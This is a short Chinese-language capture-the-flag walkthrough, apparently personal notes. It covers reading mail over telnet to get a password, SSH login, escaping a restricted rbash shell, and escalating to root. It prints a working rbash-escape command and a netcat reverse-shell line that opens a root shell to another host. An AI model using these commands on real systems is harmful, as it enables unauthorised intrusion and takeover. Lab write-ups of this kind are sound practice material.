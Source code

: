 ![image.png](https://s2.loli.net/2025/05/02/bncx85Gfq6JuF17.png)

## telnet
现在全部改完密码 挨个登录110端口检查有无重要信息

#注意 telnet的一些命令
```
user 用户名
pass 密码
list
retr 邮件名
```


![image.png](https://s2.loli.net/2025/05/02/KLvjbuFZD9ImrP1.png)


发现是mindy和john的对话 优先检查这两个邮件 获得了mindy的账户密码

用这个密码成功登录ssh

## ssh登录
发现是一个rbash 被限制了

## rbash逃逸
先看看环境变量
```
env
printenv
```

![image.png](https://s2.loli.net/2025/05/02/ROo78Zch3XrAL4G.png)

用不了

看到了ssh逃逸 但不会使用

看了wp发现原来还有这操作

```
ssh mindy@61.139.2.158  "export TERM=xterm;python -c  'import pty;pty.spawn(\"/bin/bash\")'"
```


![image.png](https://s2.loli.net/2025/05/02/MPd9foNm7zaBnUw.png)

## 逃逸成功 开始提权
还是有点依赖linpeas一点 方便查东西 

#注意 之后多一个搜索的地方 /opt

![image.png](https://s2.loli.net/2025/05/02/Jo5V6dXQCf1yPzs.png)

root权限的python脚本 我们改一下
```
echo 'import os; os.system("/bin/nc 61.139.2.153 8888 -e /bin/bash")' > /opt/tmp.py

反弹之后就是root
```
[[tips和一些工具/平时用的一些命令 更新中#^abc63a\|平时用的一些命令 更新中#^abc63a]]
[[tips和一些工具/平时用的一些命令 更新中#^5af79a\|平时用的一些命令 更新中#^5af79a]]
